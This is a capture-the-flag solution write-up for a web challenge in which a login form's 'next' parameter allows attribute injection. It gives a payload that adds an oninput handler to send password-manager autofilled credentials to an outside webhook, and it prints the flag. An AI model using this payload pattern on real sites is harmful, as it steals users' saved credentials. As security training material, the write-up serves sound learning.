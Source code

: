# Debug - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

We have Intel about the owner of this website:\
He's using a Password Manager!

Can you use this Intel to steal his credentials?\
A flag will wait for you right after you log in.

http://34.76.228.102:2003 \
(Note: use the IP not the domain)

Hint:
This is a password manager browser extension.\
What do password manager extensions do?

## Solution

### Login Page

![Image Error](assets/page_login.png)

Password doesn't matter we can login without one

### Index Page

![Image Error](assets/page_index.png)

The admin of this site uses a Password Manager Extension:

1. Password Managers are domain-specfic
2. Password Managers auto-fill username and passwords
3. Passwords Managers don't submit the form after auto-filling it

Clicking on the logout button will take us to `/login?next=`
The next parameter is important because the site appends it to `action=` in the form

`/login?next=TESTTESTESTESTESTEST`

![Image Error](assets/next_example.png)

This is not useful because of Rule 3 (see above) but we can escape ourselves from the input of action= by appending a space character however htmlentities are being processed meaning we have control only on the attributes of the form.

Adding the event `oninput` with a simple `fetch` request to our web hook with the input values will give us the data from the password manager.

### Payload

Make the Security Researcher visit:

http://34.76.228.102:2003/login?next=%20oninput=fetch("http://webhook.com?username="+sfrusername.value+"-"+sfrpassword.value)

Url-Encoded:

```html
http://34.76.228.102:2003/login?next=a%20oninput=fetch(%22http://cmdengineer.free.beeceptor.com?username=%22%2Bsfrusername.value%2B%22-%22%2Bsfrpassword.value)
```

This will slowly leak the password of the security researcher the admin. Logging in the site with he's credentials will give us the flag!

Flag: `hexCTF{pa55w0rd_m4nag3rs_c4n_hav3_vuln3rabilit1es_t00}`
